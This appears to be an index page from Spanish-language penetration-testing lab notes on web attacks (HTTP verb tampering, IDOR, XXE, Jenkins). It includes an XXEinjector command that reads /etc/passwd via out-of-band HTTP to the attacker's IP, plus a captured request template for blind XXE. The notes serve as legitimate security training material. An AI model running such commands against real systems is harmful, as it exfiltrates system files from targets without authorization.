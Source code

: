 # Other Web Attacks (HTTP verb Tampering, IDOR & XXE)

- [HTTP verb tampering](./http-verb-tampering.md)
- [IDOR (Insecure Direct Object Reference)](./idor.md)
- [XXE (XML External Entity)](./xxe.md)
- [Attacking Jenkins](./attacking-jenkins.md)
- Podemos utilizar [XXEinjector](https://github.com/enjoiz/XXEinjector) para automatizar el proceso de inyección de XML externa.
- `ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter` Nos tenemos que guardar la petición HTTP de burp
```
POST /blind/submitDetails.php HTTP/1.1

Host: 10.129.197.101

Content-Length: 140

Accept-Language: en-US,en;q=0.9

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36

Content-Type: text/plain;charset=UTF-8

Accept: */*

Origin: http://10.129.197.101

Referer: http://10.129.197.101/

Accept-Encoding: gzip, deflate, br

Connection: keep-alive



<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT```